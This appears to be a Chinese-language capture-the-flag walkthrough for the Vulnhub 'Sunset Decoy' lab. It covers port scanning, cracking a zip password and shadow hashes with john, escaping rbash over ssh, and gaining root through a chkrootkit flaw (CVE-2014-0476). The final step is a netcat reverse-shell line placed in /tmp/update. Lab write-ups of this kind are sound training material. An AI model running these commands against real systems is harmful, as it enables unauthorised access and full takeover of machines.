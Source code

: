 ```yaml
---
layer: article
title: Vulnhub	505 SUNSET DECOY
tags: pentest vulnhub Walkthrough
---
```

考点：暴力穷举、chkrootkit

靶机链接：<https://www.vulnhub.com/entry/sunset-decoy,505/>

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 10.0.2.15 |
| SUNSET DECOY | 10.0.2.13 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.13
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.13) [65535 ports]
Discovered open port 80/tcp on 10.0.2.13
Discovered open port 22/tcp on 10.0.2.13
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
```

### WEB测试

查看80端口，下载save.zip

```bash
$ zip2john save.zip >>save.txt
$ john save.txt --wordlist /usr/share/wordlists/rockyou.txt
```

得到zip压缩包密码`manuel`

![1](https://static.iihack.com/vulnhub/505/1.PNG)

解压缩得到一些文件

### 漏洞发现

尝试暴力破解系统密码

```bash
$ unshadow passwd shadow >pass.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

```

## 获得权限

### 靶机测试

![2](https://static.iihack.com/vulnhub/505/2.PNG)

成功获得一个用户的密码

现在登陆上去是rbash

使用参数获得bash

```bash
$ ssh 296640a3b825115a47b68fc44501c828@10.0.2.13 -t "bash -noprofile" 
```



## 提权

![3](https://static.iihack.com/vulnhub/505/3.PNG)

![4](https://static.iihack.com/vulnhub/505/4.PNG)

### chkrootkit

发现chkrootkit，尝试已存在漏洞[CVE-2014-0476](https://www.exploit-db.com/exploits/33899)

```bash
$ cd /tmp
$ echo "/usr/bin/nc 10.0.2.15 444 -e /bin/sh" > update
$ bash update
```

![5](https://static.iihack.com/vulnhub/505/5.PNG)
